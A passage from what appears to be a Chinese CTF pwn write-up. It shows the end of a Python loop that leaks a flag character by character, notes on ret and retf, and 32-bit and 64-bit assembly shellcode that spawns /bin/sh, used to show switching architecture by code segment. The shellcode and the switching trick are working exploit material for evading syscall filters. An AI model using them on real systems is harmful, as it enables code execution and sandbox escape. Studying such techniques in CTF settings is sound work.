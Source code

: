 ```python
            if exp(p,i,char):
                flag[i] = chr(char)
                tmp = "".join(_ for _ in flag)
                print(">>>>> %s"%tmp)
                break
            p.close()
if __name__ == '__main__':
    main()
```
### 一些补充的
#### retf
* CPU执行ret指令时,相当于进行
```c
pop IP
```

* CPU执行retf指令时,相当于进行:
```c
pop IP
pop Cs
```
* 32bit cs 0x23 
```c
;;nasm -f elf32 test_cs_32.asm 
;;ld -m elf_i386 -o test_cs_32
global _start
_start:
	push 0x0068732f
	push 0x6e69622f
	mov ebx,esp
	xor ecx,ecx
	xor edx,edx
	mov eax,11
	int 0x80
```
* 64bit cs 0x33 
```c
;;nasm -f elf64 test_cs_64.asm 
;;ld -m elf_x86_64 -o test_cs_64 test_cs_64.o
global _start
_start:
	mov r10,0x0068732f6e69622f
	push r10
	mov rdi,rsp
	xor rsi,rsi
	xor rdx,rdx
	mov rax,0x3b
	syscall
```
把断点打在 _start 上求证下

#### 验证下 arch的切换
```c
;;nasm -f elf64 test_64.asm 
;;ld -m elf_x86_64 -o test_64 test_64.o
section .data
	flag db '/flag',0x00
	len equ $-flag 

	say db 'What I want is the flag',0xa,0x0
	len2 equ $-say

	space1 times 0x10 dq 0
	store_flag times 0x30 dq 0
```